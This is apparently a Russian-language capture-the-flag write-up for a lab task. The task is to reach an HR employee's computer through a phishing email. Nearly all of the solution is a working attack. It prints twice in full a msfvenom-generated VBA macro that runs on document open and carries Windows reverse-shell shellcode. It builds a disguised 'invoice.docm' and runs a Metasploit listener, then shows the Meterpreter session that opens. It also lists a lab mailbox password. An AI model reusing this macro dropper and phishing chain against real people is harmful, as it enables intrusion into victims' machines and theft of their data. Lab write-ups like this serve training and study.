

# [infra-6] Получите доступ к компьютеру сотрудника HR-департамента

## Description

Получите доступ к компьютеру HR-сотрудника `T. Mathis` и к содержимому файла `hr.txt`.

Подсказки:
> 1. Изучите, как работают фишиговые рассылки.
> a. Почитайте о фишинге и вариантах атак.
> b. Подумайте, как и какие атаки можно использовать.

> 2. Изучите возможность получения reverse shell.
> a. Узнайте, что такое reverse shell и как он реализуется.
> b. Подумайте, как вредоносный файл можно доставить на машину HR.

> 3. Изучите фишинговую рассылку с файлами и макросами.
> a. Создайте документ (docx, xlsx) с вредоносными макросами.
> b. Отправьте фишинговое письмо на полученные ранее почты HR.

# Solution

Что мы имеем?

- доступ к внутренней сети
- мы знаем про почту цели `t_mathis@edu.stf`
- и у нас есть доступ к компу `SDOTSON` 
- есть доступ к почте `s_dotson@edu.stf`:`ricardo`

# Solution

Сначала создадим вредоносный payload, который будет внедрен в word-файл

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.154.17.2 LPORT=4444 -f vba
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 355 bytes
Final size of vba file: 2758 bytes
#If Vba7 Then
        Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal Uoxdw As Long, ByVal Gyrudkzg As Long, ByVal Dlfkpod As LongPtr, Lefh As Long, ByVal Hxdfroqbx As Long, Reazec As Long) As LongPtr
        Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal Xytsbkm As Long, ByVal Typjo As Long, ByVal Iumob As Long, ByVal Duqy As Long) As LongPtr
        Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal Ugudgpu As LongPtr, ByRef Shhmuhgj As Any, ByVal Ejbei As Long) As LongPtr
#Else
        Private Declare Function CreateThread Lib "kernel32" (ByVal Uoxdw As Long, ByVal Gyrudkzg As Long, ByVal Dlfkpod As Long, Lefh As Long, ByVal Hxdfroqbx As Long, Reazec As Long) As Long
        Private Declare Function VirtualAlloc Lib "kernel32" (ByVal Xytsbkm As Long, ByVal Typjo As Long, ByVal Iumob As Long, ByVal Duqy As Long) As Long
        Private Declare Function RtlMoveMemory Lib "kernel32" (ByVal Ugudgpu As Long, ByRef Shhmuhgj As Any, ByVal Ejbei As Long) As Long
#EndIf

Sub Auto_Open()
        Dim Lnzfai As Long, Vbbiuckt As Variant, Xiokoqcli As Long
#If Vba7 Then
        Dim  Qumak As LongPtr, Qkdhbs As LongPtr
#Else
        Dim  Qumak As Long, Qkdhbs As Long
#EndIf
        Vbbiuckt = Array(252,232,144,0,0,0,96,49,210,100,139,82,48,137,229,139,82,12,139,82,20,15,183,74,36,191,23,63,108,142,139,114,40,49,192,172,60,97,124,2,44,32,193,207,13,1,199,73,117,239,82,87,139,82,16,139,66,60,1,208,139,64,120,133,192,116,74,1,208,80,139,88,32,1,211,139,72,24,133,201,116, _
58,73,139,52,139,139,125,248,1,214,49,192,172,193,207,13,1,199,56,224,117,244,59,125,36,117,226,88,139,88,36,1,211,102,139,12,75,139,88,28,1,211,139,4,139,1,208,137,68,36,36,91,91,97,89,90,81,255,224,88,95,90,139,18,233,127,255,255,255,93,104,51,50,0,0,104,119,115,50,95, _
84,104,92,165,98,105,137,232,255,208,184,144,1,0,0,41,196,84,80,104,69,230,62,131,255,213,106,10,104,10,154,17,2,104,2,0,17,92,137,230,80,80,80,80,64,80,64,80,104,6,118,178,99,255,213,151,106,16,86,87,104,98,52,230,65,255,213,133,192,116,10,255,78,8,117,236,232,103,0,0, _
0,106,0,106,4,86,87,104,250,189,78,15,255,213,131,248,0,126,54,139,54,106,64,104,0,16,0,0,86,106,0,104,104,210,143,71,255,213,147,83,106,0,86,83,87,104,250,189,78,15,255,213,131,248,0,125,40,88,104,0,64,0,0,106,0,80,104,207,86,253,5,255,213,87,104,92,117,44,2,255, _
213,94,94,255,12,36,15,133,112,255,255,255,233,155,255,255,255,1,195,41,198,117,193,195,187,180,221,144,44,106,0,83,255,213)

        Qumak = VirtualAlloc(0, UBound(Vbbiuckt), &H1000, &H40)
        For Xiokoqcli = LBound(Vbbiuckt) To UBound(Vbbiuckt)
                Lnzfai = Vbbiuckt(Xiokoqcli)
                Qkdhbs = RtlMoveMemory(Qumak + Xiokoqcli, Lnzfai, 1)
        Next Xiokoqcli
        Qkdhbs = CreateThread(0, 0, Qumak, 0, 0, 0)
End Sub
Sub AutoOpen()
        Auto_Open
End Sub
Sub Workbook_Open()
        Auto_Open
End Sub
```

Поместим payload в файл `payload.vba`

```text
#If Vba7 Then
        Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal Uoxdw As Long, ByVal Gyrudkzg As Long, ByVal Dlfkpod As LongPtr, Lefh As Long, ByVal Hxdfroqbx As Long, Reazec As Long) As LongPtr
        Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal Xytsbkm As Long, ByVal Typjo As Long, ByVal Iumob As Long, ByVal Duqy As Long) As LongPtr
        Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal Ugudgpu As LongPtr, ByRef Shhmuhgj As Any, ByVal Ejbei As Long) As LongPtr
#Else
        Private Declare Function CreateThread Lib "kernel32" (ByVal Uoxdw As Long, ByVal Gyrudkzg As Long, ByVal Dlfkpod As Long, Lefh As Long, ByVal Hxdfroqbx As Long, Reazec As Long) As Long
        Private Declare Function VirtualAlloc Lib "kernel32" (ByVal Xytsbkm As Long, ByVal Typjo As Long, ByVal Iumob As Long, ByVal Duqy As Long) As Long
        Private Declare Function RtlMoveMemory Lib "kernel32" (ByVal Ugudgpu As Long, ByRef Shhmuhgj As Any, ByVal Ejbei As Long) As Long
#EndIf

Sub Auto_Open()
        Dim Lnzfai As Long, Vbbiuckt As Variant, Xiokoqcli As Long
#If Vba7 Then
        Dim  Qumak As LongPtr, Qkdhbs As LongPtr
#Else
        Dim  Qumak As Long, Qkdhbs As Long
#EndIf
        Vbbiuckt = Array(252,232,144,0,0,0,96,49,210,100,139,82,48,137,229,139,82,12,139,82,20,15,183,74,36,191,23,63,108,142,139,114,40,49,192,172,60,97,124,2,44,32,193,207,13,1,199,73,117,239,82,87,139,82,16,139,66,60,1,208,139,64,120,133,192,116,74,1,208,80,139,88,32,1,211,139,72,24,133,201,116, _
58,73,139,52,139,139,125,248,1,214,49,192,172,193,207,13,1,199,56,224,117,244,59,125,36,117,226,88,139,88,36,1,211,102,139,12,75,139,88,28,1,211,139,4,139,1,208,137,68,36,36,91,91,97,89,90,81,255,224,88,95,90,139,18,233,127,255,255,255,93,104,51,50,0,0,104,119,115,50,95, _
84,104,92,165,98,105,137,232,255,208,184,144,1,0,0,41,196,84,80,104,69,230,62,131,255,213,106,10,104,10,154,17,2,104,2,0,17,92,137,230,80,80,80,80,64,80,64,80,104,6,118,178,99,255,213,151,106,16,86,87,104,98,52,230,65,255,213,133,192,116,10,255,78,8,117,236,232,103,0,0, _
0,106,0,106,4,86,87,104,250,189,78,15,255,213,131,248,0,126,54,139,54,106,64,104,0,16,0,0,86,106,0,104,104,210,143,71,255,213,147,83,106,0,86,83,87,104,250,189,78,15,255,213,131,248,0,125,40,88,104,0,64,0,0,106,0,80,104,207,86,253,5,255,213,87,104,92,117,44,2,255, _
213,94,94,255,12,36,15,133,112,255,255,255,233,155,255,255,255,1,195,41,198,117,193,195,187,180,221,144,44,106,0,83,255,213)

        Qumak = VirtualAlloc(0, UBound(Vbbiuckt), &H1000, &H40)
        For Xiokoqcli = LBound(Vbbiuckt) To UBound(Vbbiuckt)
                Lnzfai = Vbbiuckt(Xiokoqcli)
                Qkdhbs = RtlMoveMemory(Qumak + Xiokoqcli, Lnzfai, 1)
        Next Xiokoqcli
        Qkdhbs = CreateThread(0, 0, Qumak, 0, 0, 0)
End Sub
Sub AutoOpen()
        Auto_Open
End Sub
Sub Workbook_Open()
        Auto_Open
End Sub
```

Теперь создаем вредоносный файл:
```bash
reddoc docm -m payload.vba -o invoice
[+] invoice.docm
```

Теперь в отдельном терминале запустим слушателя:
```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.154.17.2
set LPORT 4444
exploit
```

Теперь отправим вредоносный файл на почту цели.

Почему-то отправка через `s_dotson` не дала результата, поэтому
я отправлял от `r_andrews` и то несколько раз, чтобы увидеть заветные:
```bash
[*] Started reverse TCP handler on 10.154.17.2:4444

[*] Sending stage (203451 bytes) to 10.154.16.197
[*] Meterpreter session 1 opened (10.154.17.2:4444 -> 10.154.16.197:53521) at 2026-10-25 18:50:05 +0000

(Meterpreter 1)(C:\WINDOWS\system32) >
```



Флаг я снова нашел по адресу `C\hr.txt`: `d108ad16-2437-43ea-9b48-f3880acf9a64`

